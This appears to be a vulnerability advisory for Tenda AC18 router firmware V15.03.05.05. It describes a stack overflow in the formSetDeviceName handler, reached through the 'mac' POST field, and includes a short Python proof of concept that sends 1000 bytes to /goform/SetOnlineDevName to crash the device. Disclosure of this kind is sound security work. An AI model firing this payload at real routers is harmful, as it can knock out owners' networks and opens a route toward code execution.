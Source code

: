 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formSetDeviceName` function. The `v8` variable receives the `mac` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `mac` can trigger this security vulnerability.

![image-20240306171243036](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306171243036.png)

![image-20240306171344896](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306171344896.png)

![image-20240306171258485](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306171258485.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*1000

data = {"mac": payload,"devName": 1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306171400963](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306171400963.png)
